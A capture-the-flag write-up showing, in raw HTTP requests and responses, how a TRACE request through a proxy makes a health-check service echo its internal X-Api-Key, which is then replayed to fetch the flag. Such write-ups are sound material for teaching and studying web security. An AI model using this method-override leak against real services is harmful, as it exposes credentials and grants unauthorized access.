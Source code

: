API is looking for API-key to authenticate who can work with service. At first I tried working properly with API by sending POST requests to endpoint:

```
POST /health-check HTTP/1.1

Host: 172.104.154.101:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.104.154.101:8080/
Content-type: application/x-www-form-urlencoded
Content-Length: 43
Connection: close

url=https://sekurak.pl&api_url=health-check
```

Working with service through port 8080 which calls endpoint at port 8081 internally is fine. But for our purposes we need API-key to work directly with that:

```
POST /health-check HTTP/1.1

Host: 172.104.154.101:8081
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.104.154.101:8080/
Content-type: application/x-www-form-urlencoded
Content-Length: 22
Connection: close

url=https://sekurak.pl
```

Response is as the following:

```
Incorrect X-Api-Key
```

Then let's try smoe other methods like TRACE GET PUT...:

```
TRACE /health-check HTTP/1.1

Host: 172.104.154.101:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.104.154.101:8080/
Content-type: application/x-www-form-urlencoded
Content-Length: 22
Connection: close
X-Api-Key: foo

url=https://sekurak.pl
```

and see the response:

```
Content-Type: text/html; charset=utf-8
Content-Length: 221
Date: Sun, 10 Jun 2018 22:21:10 GMT
Connection: close

POST /health-check?_method=trace HTTP/1.1
X-Api-Key: s4OyvDDJKKVbkkx1Ap85pZMFytqB9PtG
host: 127.0.0.1:8081
content-type: application/x-www-form-urlencoded
content-length: 28
Connection: close

url=https%3A%2F%2Fsekurak.pl
```

WoW, awesome :D

let's try to get flag:

```
POST /flag HTTP/1.1

Host: 172.104.154.101:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.104.154.101:8080/
Content-type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close
X-Api-Key: s4OyvDDJKKVbkkx1Ap85pZMFytqB9PtG

action=get
```

and here is the shiny flag:

```
Bravo! Flag: ROZWAL_{0VERRID3httpMETH0D}
```

congratz,
@pwnslinger
